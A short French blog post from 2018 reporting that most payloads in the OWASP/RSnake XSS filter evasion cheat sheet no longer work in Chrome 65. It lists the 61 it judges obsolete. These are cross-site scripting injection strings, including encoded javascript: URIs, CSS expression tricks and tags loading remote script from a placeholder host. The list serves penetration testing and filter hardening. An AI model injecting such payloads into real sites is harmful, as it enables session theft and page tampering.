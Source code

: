 ```yaml
---
title: "Ces payloads XSS qui ne marchent plus"
tags: [vulnérabilité]
---
```


Sur le site de l'*OWASP* on trouve [un certain nombre de payloads XSS](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet), une bonne partie provenant de la liste de *Rsnake*.  

Cette liste n'est plus toute jeune et une bonne quantité de ces exemples est obsolète. J'ai pris un peu de temps pour tester les différents exemples sous *Chrome 65* et il s'avère que sur 97 payloads sur le site de l'OWASP (en excluant les exemples concernent le bypass d'un filtrage de domaine) seuls 36 sont encore d'actualité.  

Je n'ai pas tenu compte des payloads qui ont besoin d'un contexte particulier pour fonctionner (encoding par exemple).  

Sans trop de surprises tous les payloads où l'on tente de charger du javascript par un attribut dédié à un contenu multimédia (image, son, etc) sont obsolètes.  

Voici la liste des payloads bons à jeter (concernant *Chrome* en tout cas) :   

```html
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC= onmouseover="alert('xxs')">
<IMG onmouseover="alert('xxs')">
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<IMG SRC="jav	ascript:alert('XSS');">
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
<IMG SRC=java\0script:alert("XSS")>
<IMG SRC=" &#14;  javascript:alert('XSS');">
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
<SCRIPT SRC=http://xss.rocks/xss.js?< B >
<IMG SRC="javascript:alert('XSS')"
<iframe src=http://xss.rocks/scriptlet.html <
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<BODY BACKGROUND="javascript:alert('XSS')">
<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
<IMG SRC='vbscript:msgbox("XSS")'>
<IMG SRC="livescript:[code]">
<BGSOUND SRC="javascript:alert('XSS');">
<BR SIZE="&{alert('XSS')}">
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>
<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">
<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
exp/*<A STYLE='no\xss:noxss("*//*"); xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
<XSS STYLE="xss:expression(alert('XSS'))">
<XSS STYLE="behavior: url(xss.htc);">
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');"> 
<TABLE BACKGROUND="javascript:alert('XSS')">
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">
<DIV STYLE="width: expression(alert('XSS'));">
<BASE HREF="javascript:alert('XSS');//">
<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML><SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
<XML SRC="xsstest.xml" ID=I></XML><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
<HTML><BODY><?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"><?import namespace="t" implementation="#default#time2"><t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>"></BODY></HTML>
<SCRIPT =">" SRC="http://xss.rocks/xss.js"></SCRIPT>
<SCRIPT a=`>` SRC="http://xss.rocks/xss.js"></SCRIPT>
```


*Published April 22 2018 at 14:27*
